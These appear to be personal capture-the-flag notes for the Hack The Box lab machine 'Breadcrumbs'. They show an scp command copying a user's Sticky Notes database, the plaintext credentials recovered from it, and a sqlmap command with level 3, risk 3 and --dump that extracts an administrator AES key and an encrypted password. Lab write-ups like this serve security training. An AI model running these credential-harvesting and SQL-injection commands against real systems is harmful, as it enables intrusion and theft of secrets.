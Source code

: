 # SQL Lite Sticky Notes

scp -r juliette@breadcrumbs.htb:C:/Users/juliette/AppData/Local/Packages/Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe/LocalState  ~/HTB/Breadcrumbs/root/.

```sqlite
\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]
``` 

http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords

```json

selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}

```

sqlmap -u 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords' --level=3 --risk=3 --threads 10 --dump --dbms=mysql      


```sql
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+

```


https://www.devglan.com/online-tools/aes-encryption-decryption

![[Pasted image 20210604230204.png]]